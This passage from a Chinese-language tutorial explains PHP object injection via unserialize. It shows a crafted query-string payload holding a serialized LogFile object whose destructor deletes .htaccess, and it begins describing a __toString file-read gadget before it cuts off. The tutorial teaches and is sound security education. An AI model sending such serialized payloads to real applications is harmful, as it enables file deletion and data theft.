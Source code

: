 你看，这个代码调用了 “LogClass” 类，并且有一个 “unserialize” 值是我们可以注入的。

所以构造类似这样的东西：

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}

```

究竟发生了什么呢，因为输入是可控的，所以我们可以构造任意的序列化对象，比如：

```
<?php

$obj = new LogFile();
$obj->filename = '.htaccess';

echo serialize($obj) . '<br />';

?>

```

这个会输出

```
O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess";} 
__destruct deletes ".htaccess" file.

```

现在我们将构造过后的序列化对象发送给刚才的脚本：

```
script.php?usr_serialized=O:7:"LogFile":1:{s:8:"filename";s:9:".htaccess”;}

```

这会输出

```
__destruct deletes ".htaccess" file.

```

现在 .htaccess 已经被干掉了，因为脚本结束时 __destruct会被调用。不过我们已经可以控制“LogFile”类的变量啦。

这就是漏洞名称的由来：变量可控并且进行了unserialize操作的地方注入序列化对象，实现代码执行或者其他坑爹的行为。

虽然这不是一个很好的例子，不过我相信你可以理解这个概念，unserialize自动调用 __wakeup 和 __destruct，接着攻击者可以控制类变量，并且攻击web程序。

0x06 常见的注入点
=====

先不谈 __wakeup 和 __destruct，还有一些很常见的注入点允许你利用这个类型的漏洞，一切都是取决于程序逻辑。

打个比方，某用户类定义了一个__toString为了让应用程序能够将类作为一个字符串输出（echo $obj） ,而且其他类也可能定义了一个类允许__toString读取某个文件。

```
<?php 

// … 一些include ...

class FileClass
{
    // 文件名

    public $filename = 'error.log';

    //当对象被作为一个字符串会读取这个文件

    public function __toString()
    {
```